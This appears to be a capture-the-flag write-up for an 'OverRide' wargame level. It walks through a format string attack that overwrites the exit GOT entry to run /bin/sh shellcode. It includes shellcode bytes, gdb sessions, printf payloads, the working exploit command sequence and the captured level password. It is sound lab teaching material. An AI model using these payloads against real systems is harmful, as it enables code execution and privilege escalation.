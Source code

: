 Ok, so the idea here is to do a format string attack, to override the `exit` address in the `GOT`,
thanks to the code below:
```c
printf(buff);
exit(0);
```

The main issue here is to exploit this while all characters are set in lowercase.

The new `exit` address in the `GOT` should point to our `shellcode` address
stored in the stack.

First of all, we need to get a shell code that can be contained in 96 characters:
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

The uppercase letters are between `0x41` (65), and `0x5a` (90).
It's not possible as you can see we have `0x51` in the middle of the string.

If we [disassemble the shellcode](https://defuse.ca/online-x86-assembler.htm#disassembly2),
we have these instructions inside:
```
0:  31 c9                   xor    ecx,ecx
2:  f7 e1                   mul    ecx
4:  51                      push   ecx
5:  68 2f 2f 73 68          push   0x68732f2f
a:  68 2f 62 69 6e          push   0x6e69622f
f:  89 e3                   mov    ebx,esp
11: b0 0b                   mov    al,0xb
13: cd 80                   int    0x80
```

We need to change the `push ecx` to something else which is not between `0x41` to `0x5a`.


- What this code is doing exactly?
This code is on the first two lines setting `ecx`, `edx` and `eax` to 0.
The `mul` expression with one operand means that it'll makes a multiplication between 2 registers,
`rax` and the one specified. So here, `ecx`. Then, it'll store the highest bytes into `edx` register,
and the lowest ones into `rax`.
And because `ecx` is `0`, then `rax` and `rdx` will result into a `0` number.

Then, it'll prepare the argument for the syscall. The syscall is defined here:
```
f:  89 e3                   mov    ebx,esp
11: b0 0b                   mov    al,0xb
13: cd 80                   int    0x80
```

We first move the stack pointer into `ebx`, then `al` (= `eax` for only 8 bits) will contain 11,
to call the syscall with `int 0x80`.

All syscalls are listed on that website: https://syscalls.mebeim.net/?table=x86/32/ia32/latest
And from that, we can see that the syscall 11 is equal to `execve`.

This syscall takes 3 arguments:
- On `ebx` it'll take a `const char *filename`
- On `ecx` it'll take a `const char *const *argv`
- On `edx` it'll take a `const char *const *envp`

It'll help us to understand in a better way the shellcode:
```
4:  51                      push   ecx
5:  68 2f 2f 73 68          push   0x68732f2f
a:  68 2f 62 69 6e          push   0x6e69622f
```
These push aren't explicit arguments for the syscall. These are a string.

The push ecx is 0 on 4 bytes, so : "\0\0\0\0"
The push `0x68732f2f` is: `//sh` (in little endian)
The push `0x6e69622f` is `/bin` (in little endian)

All of these are here to avoid pushing a `0` value into
the stack that'll result Of the following instruction for example:
`68 2f 73 68 00`
1. `68` = push
2. `2f 73 68 00` = `/sh\0`
This could help us to remove the last push, and avoid sending an uppercase
character.

So we can now understand that the instruction:
```
f:  89 e3                   mov    ebx,esp
```
Is going to move the stack pointer into `ebx` that'll now points
to our string.
Thanks to that, the `execve` will receive the `/bin/sh`
as `filename` argument.

As we can see on the `man` page of `execve`:
`On  Linux,  argv  and envp can be specified as NULL.  In both cases, this has the same effect as specifying the argument as a pointer to a list containing a single null pointer.`

In other words, `ecx` and `edx` are null and it's normal, wanted and it'll work properly.

This will gave us the following shellcode:
`\x31\xC9\xF7\xE1\x68\x2F\x73\x68\x00\x68\x2F\x62\x69\x6E\x89\xE3\xB0\x0B\xCD\x80`

Find the buffer address:
```
(gdb) b *main + 188
Breakpoint 1 at 0x8048500
(gdb) r
Starting program: /home/users/level05/level05 
AAAAAAAABBBBBBBB 

Breakpoint 1, 0x08048500 in main ()
(gdb) print $esp+0x28
$1 = (void *) 0xffffd698
```

For the format string attack, we need to write first of all to the address:
`0x080497e0`

The address:
`0xffffd698` -> 4.294.956.696 characters

So we'll split it in two:
1. Write `0xd698` (54936) in `0x080497e0` (because of little-endian)
2. Write `0xffff` (65535) in `0x080497e2`

So at most 65.535 characters.

Offset 10:
```sh
level05@OverRide:~$ ./level05 
AAAA%x %x %x %x %x %x %x %x %x %x %x %x %x 
aaaa64 f7fcfac0 f7ec3af9 ffffd6df ffffd6de 0 ffffffff ffffd764 f7fdb000 61616161 25207825 78252078 20782520
```

Payload:
```py
print "\xe0\x97\x04\x08\xe2\x97\x04\x08%" + str(54936 - 8) + "x%10$hn%" + str(65535 - 54936 - 8) + "x%11$hn"
```
So, the payload has 34 characters.

But, we prefer to have aligned addresses, so we need to up to a full payload
of 36 characters to be aligned on 4.

We just need to ajust the address written by 36 to set the start of the shellcode:
```py
print "\xe0\x97\x04\x08\xe2\x97\x04\x08%54964x%10$hn%10571x%11$hn\x00\x00"
```

And then, add the shellcode just after it, and fill the complete buffer with `NOP` code:
```py
print "\xe0\x97\x04\x08\xe2\x97\x04\x08%51044x%10$hn%14483x%11$hn\x00\x00\x31\xC9\xF7\xE1\x68\x2F\x73\x68\x00\x68\x2F\x62\x69\x6E\x89\xE3\xB0\x0B\xCD\x80" + "\x90" * (100 - 56)
```

But anyway, I cant make it works, so forgot that, let's do another simpler way:

### Solution 2 - Use environment variables

We can simply bypass the lowercase enforce of chars by putting our shellcode into the environment variables / argv.
These are simply allocated space on the stack, so we can use them properly.

We can get the environment variable address with that:

```
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) set env PAYLOAD="AAAABBBBCCCCDDDD"
(gdb) b *main + 200
Breakpoint 1 at 0x804850c
(gdb) x/12xw $ebp
0xffffd718:	0x00000000	0xf7e45513	0x00000001	0xffffd7b4  ; [0] - [return_address] - [argc] - [argv]
0xffffd728:	0xffffd7bc	0xf7fd3000	0x00000000	0xffffd71c  ; [envp]
0xffffd738:	0xffffd7bc	0x00000000	0x08048230	0xf7fceff4
(gdb) x/20xw 0xffffd7bc
0xffffd7bc:	0xffffd8ef	0xffffd8ff	0xffffd913	0xffffd932
0xffffd7cc:	0xffffd945	0xffffd952	0xffffde73	0xffffdec0
0xffffd7dc:	0xffffded7	0xffffdee6	0xffffdefe	0xffffdf0f
0xffffd7ec:	0xffffdf28	0xffffdf30	0xffffdf42	0xffffdf52
0xffffd7fc:	0xffffdf7f	0xffffdf9f	0xffffdfba	0x00000000  ; Our env should be on this line
(gdb) x/s 0xffffdfba
0xffffdfba:	 "LESSCLOSE=/usr/bin/lesspipe %s %s"
(gdb) x/s 0xffffdf9f
0xffffdf9f:	 "PAYLOAD=\"AAAABBBBCCCCDDDD\""
```

So let's write our payload:

- First of all, we need to write the adress of our payload which will be:
  - `0xffffdf9f` + 9 (So `PAYLOAD="`) = `0xffffdfa8`
  - This adress will be wroten in two parts: `0xffff` and `0xdfa8`
- We need to write the first one in the adress `0x80497e2`, and the second one in `0x80497e0`.
  - We'll write first the address `\xe0\x97\x04\x08`
  - Then the second address`\xe2\x97\x04\x08`
- To write: `0xdfa8`, we need to send: `%57248x` (so `0xdfa8 - 8 (2*4)`) to `printf`
- So to write: `0xffff`, we need to send: `%8279x` to `printf`
- And to write those values on the stack, we'll use `%10$n` and `%11$n` with the addresses positions on the stack.

So our exploit will be:
`\xe0\x97\x04\x08\xe2\x97\x04\x08%57248x%10$n%8279x%11$n`

```sh
level05@OverRide:~$ export PAYLOAD=$(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
level05@OverRide:~$ python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08%57248x%10$n%8279x%11$n")' > /tmp/exploit
level05@OverRide:~$ cat /tmp/exploit - | ./level05
```

Password: `h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq`